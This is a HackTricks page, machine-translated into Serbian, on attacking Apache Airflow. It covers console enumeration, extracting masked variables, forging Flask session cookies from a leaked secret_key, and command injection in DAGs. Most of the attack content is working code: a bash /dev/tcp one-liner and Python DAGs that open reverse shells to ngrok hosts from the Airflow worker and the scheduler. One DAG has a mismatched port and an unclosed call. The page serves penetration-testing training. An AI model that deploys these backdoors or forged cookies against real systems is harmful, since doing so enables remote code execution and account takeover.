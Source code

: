 # Apache Airflow Security

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Basic Information

[**Apache Airflow**](https://airflow.apache.org) služi kao platforma za **orchestraciju i zakazivanje podataka ili radnih tokova**. Termin "orchestracija" u kontekstu podataka označava proces organizovanja, koordinacije i upravljanja složenim radnim tokovima podataka koji potiču iz različitih izvora. Primarna svrha ovih orkestriranih radnih tokova podataka je da obezbede obrađene i upotrebljive skupove podataka. Ovi skupovi podataka se široko koriste u mnogim aplikacijama, uključujući, ali ne ograničavajući se na alate za poslovnu inteligenciju, modele podataka i mašinskog učenja, koji su svi osnovni za funkcionisanje aplikacija velikih podataka.

U suštini, Apache Airflow će vam omogućiti da **zakazujete izvršenje koda kada se nešto** (događaj, cron) **dogodi**.

### Local Lab

#### Docker-Compose

Možete koristiti **docker-compose konfiguracioni fajl sa** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) da pokrenete kompletno apache airflow docker okruženje. (Ako ste na MacOS-u, obavezno dodelite najmanje 6GB RAM-a docker VM-u).

#### Minikube

Jedan jednostavan način da **pokrenete apache airflow** je da ga pokrenete **sa minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow Configuration

Airflow može čuvati **osetljive informacije** u svojoj konfiguraciji ili možete pronaći slabe konfiguracije:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Pre nego što počnete da napadate Airflow, trebali biste razumeti **kako funkcionišu dozvole**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Attacks

#### Web Console Enumeration

Ako imate **pristup web konzoli**, možda ćete moći da pristupite nekim ili svim sledećim informacijama:

* **Varijable** (Prilagođene osetljive informacije mogu biti sačuvane ovde)
* **Konekcije** (Prilagođene osetljive informacije mogu biti sačuvane ovde)
* Pristupite im na `http://<airflow>/connection/list/`
* [**Konfiguracija**](./#airflow-configuration) (Osetljive informacije kao što su **`secret_key`** i lozinke mogu biti sačuvane ovde)
* Lista **korisnika i uloga**
* **Kod svakog DAG-a** (koji može sadržati zanimljive informacije)

#### Retrieve Variables Values

Varijable se mogu čuvati u Airflow-u tako da **DAG-ovi** mogu **pristupiti** njihovim vrednostima. Slično je tajnama drugih platformi. Ako imate **dovoljno dozvola**, možete im pristupiti u GUI-u na `http://<airflow>/variable/list/`.\
Airflow po defaultu prikazuje vrednost varijable u GUI-u, međutim, prema [**ovome**](https://marclamberti.com/blog/variables-with-apache-airflow/), moguće je postaviti **listu varijabli** čija će se **vrednost** pojaviti kao **zvezdice** u **GUI**.

![](<../../.gitbook/assets/image (164).png>)

Međutim, ove **vrednosti** se i dalje mogu **pribaviti** putem **CLI** (morate imati pristup bazi podataka), **izvršavanjem proizvoljnog DAG-a**, **API** pristupom krajnjoj tački varijabli (API mora biti aktiviran), i **čak i samim GUI-em!**\
Da biste pristupili tim vrednostima iz GUI-a, jednostavno **izaberite varijable** kojima želite da pristupite i **kliknite na Akcije -> Izvezi**.\
Drugi način je da izvršite **bruteforce** na **skrivenoj vrednosti** koristeći **filtriranje pretrage** dok je ne dobijete:

![](<../../.gitbook/assets/image (152).png>)

#### Privilege Escalation

Ako je konfiguracija **`expose_config`** postavljena na **True**, iz **uloge Korisnik** i **naviše** mogu **čitati** **konfiguraciju na web-u**. U ovoj konfiguraciji se pojavljuje **`secret_key`**, što znači da svaki korisnik sa ovim važećim može **napraviti svoj potpisani kolačić da bi se pretvarao da je bilo koji drugi korisnički nalog**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Backdoor (RCE u Airflow radniku)

Ako imate **pristup za pisanje** na mestu gde se **DAG-ovi čuvaju**, možete jednostavno **napraviti jedan** koji će vam poslati **obrnuti shell.**\
Imajte na umu da će ovaj obrnuti shell biti izvršen unutar **airflow radničkog kontejnera:**
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE u Airflow scheduler-u)

Ako postavite nešto da bude **izvršeno u korenu koda**, u trenutku pisanja ovog teksta, biće **izvršeno od strane scheduler-a** nakon nekoliko sekundi nakon što ga stavite unutar DAG-ove fascikle.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### Kreiranje DAG-a

Ako uspete da **kompromitujete mašinu unutar DAG klastera**, možete kreirati nove **DAG skripte** u `dags/` folderu i one će biti **replicirane na ostalim mašinama** unutar DAG klastera.

#### Injekcija koda u DAG

Kada izvršavate DAG iz GUI-a, možete **proslediti argumente** njemu.\
Stoga, ako DAG nije pravilno kodiran, mogao bi biti **ranjiv na Injekciju Komandi.**\
To se desilo u ovom CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Sve što treba da znate da **počnete da tražite injekcije komandi u DAG-ovima** je da se **parametri** **pristupaju** sa kodom **`dag_run.conf.get("param_name")`**.

Štaviše, ista ranjivost može se javiti sa **varijablama** (imajte na umu da sa dovoljno privilegija možete **kontrolisati vrednost varijabli** u GUI-u). Varijable se **pristupaju sa**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Ako se koriste, na primer, unutar bash komande, mogli biste izvršiti injekciju komande.

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
